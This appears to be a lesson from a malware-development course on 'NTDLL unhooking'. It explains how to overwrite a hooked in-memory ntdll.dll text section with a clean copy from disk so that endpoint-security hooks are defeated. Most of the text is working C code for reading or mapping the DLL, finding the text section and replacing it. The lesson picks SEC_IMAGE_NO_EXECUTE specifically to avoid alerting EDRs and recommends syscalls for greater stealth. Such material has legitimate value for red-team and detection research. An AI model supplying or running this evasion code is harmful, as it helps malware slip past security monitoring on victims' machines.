Introduction
This module demonstrates how one can implement NTDLL unhooking by overwriting the hooked NTDLL's text section with an unhooked version from an NTDLL image on disk. The steps to perform NTDLL unhooking will be as follows:
With that being said, let's start with the first step which is to retrieve a handle for the clean NTDLL image.
Retrieving NTDLL
Retrieving a clean version of NTDLL from disk can be done using the methods described in the sections below.
ReadFile WinAPI
One of the obvious ways to read ntdll.dll from disk is using the ReadFile WinAPI which can be used to read files from disk. It is important to keep in mind that the text section of the ntdll.dll file will have an offset of 1024.
The ntdll.dll file can be read from disk using the custom ReadNtdllFromDisk function shown below which uses GetWindowsDirectoryA, CreateFileA, GetFileSize and ReadFile WinAPIs. Again, recall that the DLL file is stored inside C:\Windows\System32\.
The ReadNtdllFromDisk function will return TRUE if it succeeds in reading the ntdll.dll file. It has a single OUT parameter, ppNtdllBuf, which holds the base address of the ntdll.dll.
#define NTDLL "NTDLL.DLL"
BOOL ReadNtdllFromDisk(OUT PVOID* ppNtdllBuf) {
CHAR cWinPath [MAX_PATH / 2] = { 0 };
CHAR cNtdllPath [MAX_PATH] = { 0 };
HANDLE hFile = NULL;
DWORD dwNumberOfBytesRead = NULL,
dwFileLen = NULL;
PVOID pNtdllBuffer = NULL;
// getting the path of the Windows directory
if (GetWindowsDirectoryA(cWinPath, sizeof(cWinPath)) == 0) {
printf("[!] GetWindowsDirectoryA Failed With Error : %d \n", GetLastError());
goto _EndOfFunc;
}
// 'sprintf_s' is a more secure version than 'sprintf'
sprintf_s(cNtdllPath, sizeof(cNtdllPath), "%s\\System32\\%s", cWinPath, NTDLL);
// getting the handle of the ntdll.dll file
hFile = CreateFileA(cNtdllPath, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
if (hFile == INVALID_HANDLE_VALUE) {
printf("[!] CreateFileA Failed With Error : %d \n", GetLastError());
goto _EndOfFunc;
}
// allocating enough memory to read the ntdll.dll file
dwFileLen = GetFileSize(hFile, NULL);
pNtdllBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, dwFileLen);
// reading the file
if (!ReadFile(hFile, pNtdllBuffer, dwFileLen, &dwNumberOfBytesRead, NULL) || dwFileLen != dwNumberOfBytesRead) {
printf("[!] ReadFile Failed With Error : %d \n", GetLastError());
printf("[i] Read %d of %d Bytes \n", dwNumberOfBytesRead, dwFileLen);
goto _EndOfFunc;
}
*ppNtdllBuf = pNtdllBuffer;
_EndOfFunc:
if (hFile)
CloseHandle(hFile);
if (*ppNtdllBuf == NULL)
return FALSE;
else
return TRUE;
}Mapping NTDLL
The CreateFileMappingA and MapViewOfFile WinAPIs can also be used to read the ntdll.dll file from C:\Windows\System32\. When using these WinAPIs, the text section offset will be 4096 rather than 1024. This is because the image is mapped which causes the Windows loader to apply this alignment modification. Without the SEC_IMAGE or SEC_IMAGE_NO_EXECUTE flags in CreateFileMappingA, this alignment will not occur and therefore the offset remains at 1024.
The SEC_IMAGE_NO_EXECUTE flag will be used in the implementation below because it doesn't trigger the PsSetLoadImageNotifyRoutine callback. This means that the use of this flag will not alert EDRs and other security products that are utilizing this function when ntdll.dll is mapped into memory. This is indicated in the Windows documentation for CreateFileMappingA as shown below.

Fetching ntdll.dll from disk using the mapping WinAPIs is done via the custom MapNtdllFromDisk function below. MapNtdllFromDisk returns TRUE if it succeeds in reading the ntdll.dll file.
#define NTDLL "NTDLL.DLL"
BOOL MapNtdllFromDisk(OUT PVOID* ppNtdllBuf) {
HANDLE hFile = NULL,
hSection = NULL;
CHAR cWinPath [MAX_PATH / 2] = { 0 };
CHAR cNtdllPath [MAX_PATH] = { 0 };
PBYTE pNtdllBuffer = NULL;
// getting the path of the Windows directory
if (GetWindowsDirectoryA(cWinPath, sizeof(cWinPath)) == 0) {
printf("[!] GetWindowsDirectoryA Failed With Error : %d \n", GetLastError());
goto _EndOfFunc;
}
// 'sprintf_s' is a more secure version than 'sprintf'
sprintf_s(cNtdllPath, sizeof(cNtdllPath), "%s\\System32\\%s", cWinPath, NTDLL);
// getting the handle of the ntdll.dll file
hFile = CreateFileA(cNtdllPath, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
if (hFile == INVALID_HANDLE_VALUE) {
printf("[!] CreateFileA Failed With Error : %d \n", GetLastError());
goto _EndOfFunc;
}
// creating a mapping view of the ntdll.dll file using the 'SEC_IMAGE_NO_EXECUTE' flag
hSection = CreateFileMappingA(hFile, NULL, PAGE_READONLY | SEC_IMAGE_NO_EXECUTE, NULL, NULL, NULL);
if (hSection == NULL) {
printf("[!] CreateFileMappingA Failed With Error : %d \n", GetLastError());
goto _EndOfFunc;
}
// mapping the view of file of ntdll.dll
pNtdllBuffer = MapViewOfFile(hSection, FILE_MAP_READ, NULL, NULL, NULL);
if (pNtdllBuffer == NULL) {
printf("[!] MapViewOfFile Failed With Error : %d \n", GetLastError());
goto _EndOfFunc;
}
*ppNtdllBuf = pNtdllBuffer;
_EndOfFunc:
if (hFile)
CloseHandle(hFile);
if (hSection)
CloseHandle(hSection);
if (*ppNtdllBuf == NULL)
return FALSE;
else
return TRUE;
}Both ReadNtdllFromDisk and MapNtdllFromDisk functions perform the same task but will result in a different text section offset.
Reading vs Mapping NTDLL
Sometimes when the ntdll.dll file is read from disk rather than mapped to memory, the offset of its text section might be 4096 instead of the expected 1024. Mapping the ntdll.dll file to memory is more reliable since the text section offset will always equal the IMAGE_SECTION_HEADER.VirtualAddress offset of the DLL file.
Unhooking
Several actions need to be taken to unhook ntdll.dll. These actions will be demonstrated step-by-step to aid simplicity.
1 - Fetching The Local Ntdll.dll Image Handle
In order to replace the text section of the locally hooked ntdll.dll, the base address and size of it must first be obtained. This can be done in various ways, but first, a handle to the local NTDLL module must be obtained. This can be achieved using GetModuleHandleA("ntdll.dll") or with the custom GetModuleHandle implementation demonstrated in prior modules. For now, the FetchLocalNtdllBaseAddress function will be used to complete this task.
PVOID FetchLocalNtdllBaseAddress() {
#ifdef _WIN64
PPEB pPeb = (PPEB)__readgsqword(0x60);
#elif _WIN32
PPEB pPeb = (PPEB)__readfsdword(0x30);
#endif // _WIN64// Reaching to the 'ntdll.dll' module directly (we know its the 2nd image after the local image name)
PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPeb->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);
return pLdr->DllBase;
}pPeb->Ldr->InMemoryOrderModuleList.Flink->Flink is a pointer to the second entry in the linked list. The function skips the first entry because that is related to the local image (e.g. DiskUnhooking.exe). The second entry, however, is related to the ntdll.dll module.pPeb->Ldr->InMemoryOrderModuleList.Flink->Flink is a pointer to the second entry, it points to the end of the entry rather than the beginning of it. The size of the LIST_ENTRY structure is 0x10, therefore 0x10 is subtracted to move the pointer to the beginning of the second entry, which is the position of ntdll.dll as explained in the first point.return pLdr->DllBase returns the handle/base address of the ntdll.dll image.2 - Fetching The Local Ntdll.dll's Text Section
After using the FetchLocalNtdllBaseAddress function to retrieve a handle to the local ntdll.dll, the base address and size of its text section can now be retrieved. Two methods of doing so are demonstrated below.
Method 1 - Optional Header Structure
The first method uses the Optional Header structure since IMAGE_OPTIONAL_HEADER contains the RVA of the base address of the text section (BaseOfCode) along with its size (SizeOfCode). A few variables are explained for the code snippet to be understood:
pLocalNtdll is the base address of the ntdll.dll image returned by FetchLocalNtdllBaseAddress.pLocalNtdllTxt is the text section's base address.sNtdllTxtSize is the text section's size.PIMAGE_DOS_HEADER pLocalDosHdr = (PIMAGE_DOS_HEADER)pLocalNtdll;
if (pLocalDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
return FALSE;
PIMAGE_NT_HEADERS pLocalNtHdrs = (PIMAGE_NT_HEADERS)((PBYTE)pLocalNtdll + pLocalDosHdr->e_lfanew);
if (pLocalNtHdrs->Signature != IMAGE_NT_SIGNATURE)
return FALSE;
PVOID pLocalNtdllTxt = (PVOID)(pLocalNtHdrs->OptionalHeader.BaseOfCode + (ULONG_PTR)pLocalNtdll);
SIZE_T sNtdllTxtSize = pLocalNtHdrs->OptionalHeader.SizeOfCode;Method 2 - IMAGE_SECTION_HEADER Structure
The second method searches for the text section in the IMAGE_SECTION_HEADER structure array. This was previously demonstrated in the Parsing PE Headers module.
pLocalNtHdrs is a pointer to the Nt headers structurepLocalNtdllTxt and sNtdllTxtSize are the text section's base address and its size, respectively.When pSectionHeader[i].Name is equal to ".text", the if statement performs a string comparison against the first 4 characters, being ".tex". The (*ULONG)* expression reverses the value of ".tex" to be "xet.". This happens because the least significant byte will be read first and placed in the most significant position of the ULONG value, and the most significant byte will be read last and placed in the least significant position of the ULONG value. After that, a bitwise OR operation is done against the string "xet." with 0x20202020 to align it to a 32-bit boundary, which results in the 'xet.' value, that is 0x7865742E in hex.
This is done to avoid using the strcmp function. An alternative approach could have been performed using a string hashing function where the hash value of the ".text" string is calculated and compared to that of pSectionHeader[i].Name.
PIMAGE_SECTION_HEADER pSectionHeader = IMAGE_FIRST_SECTION(pLocalNtHdrs);
for (int i = 0; i < pLocalNtHdrs->FileHeader.NumberOfSections; i++) {
// if( strcmp(pSectionHeader[i]->Name, ".text") == 0) )
if ((*(ULONG*)pSectionHeader[i].Name | 0x20202020) == 'xet.') {
PVOID pLocalNtdllTxt = (PVOID)((ULONG_PTR)pLocalNtdll + pSectionHeader[i].VirtualAddress);
SIZE_T sNtdllTxtSize = pSectionHeader[i].Misc.VirtualSize;
break;
}
}This method will be used to retrieve the required information about the text section in all the NTDLL unhooking modules.
3 - Fetching The Unhooked Ntdll.dll's Text Section
The next step is to get the base address of the unhooked ntdll.dll's text section. This can be done using either ReadNtdllFromDisk or MapNtdllFromDisk functions. Then simply add that base address to the offset of the text section, which will differ depending on which function was used to retrieve the unhooked ntdll.dll's text section.
If ReadNtdllFromDisk is used then the text section's offset will be equal to 1024 bytes. Otherwise, if MapNtdllFromDisk is used then the text section's offset will be equal to the NTDLL's IMAGE_SECTION_HEADER.VirtualAddress, which is generally 4096 bytes.
The pseudocode below shows the process for both scenarios.
// Mapped
PVOID pUnhookedTxtNtdll = (ULONG_PTR)(MapNtdllFromDisk output) + (4096 or IMAGE_SECTION_HEADER.VirtualAddress of ntdll.dll);
// Read
PVOID pUnhookedTxtNtdll = (ULONG_PTR)(ReadNtdllFromDisk output) + 1024;4 - Text Section Replacement
Having obtained all the necessary information, the next step is to swap the hooked NTDLL text section with the unhooked one. This is done via memcpy, where the destination parameter is the base address of the hooked text section and the source is the unhooked text section.
Recall that the memory permission of the text section should be modified to allow execution and writing. This will be done using the VirtualProtect WinAPI by setting the PAGE_EXECUTE_WRITECOPY or PAGE_EXECUTE_READWRITE flags.
After successfully updating the text sections, VirtualProtect should be called again to restore the previous memory permissions of the text section, PAGE_EXECUTE_READ.
The Unhooking Function
The following ReplaceNtdllTxtSection function will be used in the upcoming modules as well. The function has one parameter, pUnhookedNtdll, which is the base address of the unhooked ntdll.dll.
The function also has preprocessor code that modifies the offset of the text section depending on which method was used to fetch the ntdll.dll file. If MAP_NTDLL is defined, the offset will be pSectionHeader[i].VirtualAddress. Alternatively, if READ_NTDLL is defined, the offset is set to 1024.
Defining MAP_NTDLL or READ_NTDLL will be left up to the user, depending on which function was used to read ntdll.dll.
// #define MAP_NTDLL
// or
// #define READ_NTDLL
BOOL ReplaceNtdllTxtSection(IN PVOID pUnhookedNtdll) {
PVOID pLocalNtdll = (PVOID)FetchLocalNtdllBaseAddress();
// getting the dos header
PIMAGE_DOS_HEADER pLocalDosHdr = (PIMAGE_DOS_HEADER)pLocalNtdll;
if (pLocalDosHdr && pLocalDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
return FALSE;
// getting the nt headers
PIMAGE_NT_HEADERS pLocalNtHdrs = (PIMAGE_NT_HEADERS)((PBYTE)pLocalNtdll + pLocalDosHdr->e_lfanew);
if (pLocalNtHdrs->Signature != IMAGE_NT_SIGNATURE)
return FALSE;
PVOID pLocalNtdllTxt = NULL, // local hooked text section base address
pRemoteNtdllTxt = NULL; // the unhooked text section base address
SIZE_T sNtdllTxtSize = NULL; // the size of the text section
// getting the text section
PIMAGE_SECTION_HEADER pSectionHeader = IMAGE_FIRST_SECTION(pLocalNtHdrs);
for (int i = 0; i < pLocalNtHdrs->FileHeader.NumberOfSections; i++) {
// the same as if( strcmp(pSectionHeader[i].Name, ".text") == 0 )
if ((*(ULONG*)pSectionHeader[i].Name | 0x20202020) == 'xet.') {
pLocalNtdllTxt = (PVOID)((ULONG_PTR)pLocalNtdll + pSectionHeader[i].VirtualAddress);
#ifdef MAP_NTDLL
pRemoteNtdllTxt = (PVOID)((ULONG_PTR)pUnhookedNtdll + pSectionHeader[i].VirtualAddress);
#endif
#ifdef READ_NTDLL
pRemoteNtdllTxt = (PVOID)((ULONG_PTR)pUnhookedNtdll + 1024);
#endif
sNtdllTxtSize = pSectionHeader[i].Misc.VirtualSize;
break;
}
}
// small check to verify that all the required information is retrieved
if (!pLocalNtdllTxt || !pRemoteNtdllTxt || !sNtdllTxtSize)
return FALSE;
DWORD dwOldProtection = NULL;
// making the text section writable and executable
if (!VirtualProtect(pLocalNtdllTxt, sNtdllTxtSize, PAGE_EXECUTE_WRITECOPY, &dwOldProtection)) {
printf("[!] VirtualProtect [1] Failed With Error : %d \n", GetLastError());
return FALSE;
}
// copying the new text section
memcpy(pLocalNtdllTxt, pRemoteNtdllTxt, sNtdllTxtSize);
// rrestoring the old memory protection
if (!VirtualProtect(pLocalNtdllTxt, sNtdllTxtSize, dwOldProtection, &dwOldProtection)) {
printf("[!] VirtualProtect [2] Failed With Error : %d \n", GetLastError());
return FALSE;
}
return TRUE;
}Handling Edge Cases
Recall that when the ntdll.dll file is read from disk rather than mapped to memory, the offset of the text section may be 4096 instead of 1024. To solve this problem programmatically, the following if-statement is added to the ReplaceNtdllTxtSection function.
If READ_NTDLL is defined, the if-statement is included to determine the text section's offset. This is done by comparing the first four bytes of the calculated base address with that of pLocalNtdllTxt. If they are equal, the new NTDLL's text section's offset is 1024 and the calculated base address does not need to be modified. Otherwise, the offset is 4096 and additional modifications are required.
#ifdef READ_NTDLL// small check to verify that 'pRemoteNtdllTxt' is really the base address of the text section
if (*(ULONG*)pLocalNtdllTxt != *(ULONG*)pRemoteNtdllTxt) {
// if not, then the read text section is of offset 4096, so we add 3072 (because we added 1024 already)
(ULONG_PTR)pRemoteNtdllTxt += 3072;
// checking again
if (*(ULONG*)pLocalNtdllTxt != *(ULONG*)pRemoteNtdllTxt)
return FALSE;
}
#endifExample
The first four bytes of ntdll.dll are 0xCC 0xCC 0xCC 0xCC.

If the first 4 bytes are not equal to 0xCC 0xCC 0xCC 0xCC then pRemoteNtdllTxt is miscalculated. Therefore, the actual text section offset is 4096 and so an additional 3072 are added to that address since 1024 was already checked. The recalculation is demonstrated in the following image.

Improving The Implementation
The current implementation unhooks ntdll.dll using WinAPIs. For a stealthier implementation, direct or indirect syscalls should be used to perform unhooking. This will be left as an objective for the reader.
Disk Unhooking Risks
Before demonstrating NTDLL unhooking from disk, it's important to be aware that while this approach may be effective, it's being detected far more easily due to its widespread use in bypassing security solutions. Security vendors have a larger number of heuristic signatures developed to detect this technique compared to alternative methods. The upcoming unhooking modules are considered better alternatives.
Demo 1
The hooked ntdll.dll text section to be replaced.

The text section base address of the unhooked ntdll.dll.

Replacing the text section.

Demo 2
The hooked ntdll.dll text section to be replaced.

Miscalculating the text section base address.

Recalculating the base address.

Replacing the text section.

Demo 3
This demo demonstrates how NTDLL unhooking evades userland hooks installed by circumventing the previously introduced MalDevEdr.dll program.
To verify the effectiveness of the DiskUnhooking.exe implementation, the PrintState function has been added which prints the syscall's name and its address to the console. This function requires two parameters: cSyscallName, which represents the name of the syscall, and pSyscallAddress, which represents the syscall's address. By analyzing the opcodes of the specified syscall and comparing them to the opcodes that a typical syscall would begin with, PrintState determines whether or not the syscall has been hooked.
Recall that the opcodes of a syscall are 4C 8B D1 B8. This is equivalent to the mov r10, rcx and mov eax, <SSN> instructions.
VOID PrintState(char* cSyscallName, PVOID pSyscallAddress) {
printf("[#] %s [ 0x%p ] ---> %s \n", cSyscallName, pSyscallAddress, (*(ULONG*)pSyscallAddress != 0xb8d18b4c) == TRUE ? "[ HOOKED ]" : "[ UNHOOKED ]");
}Inject MalDevEdr.dll to DiskUnhooking.exe.
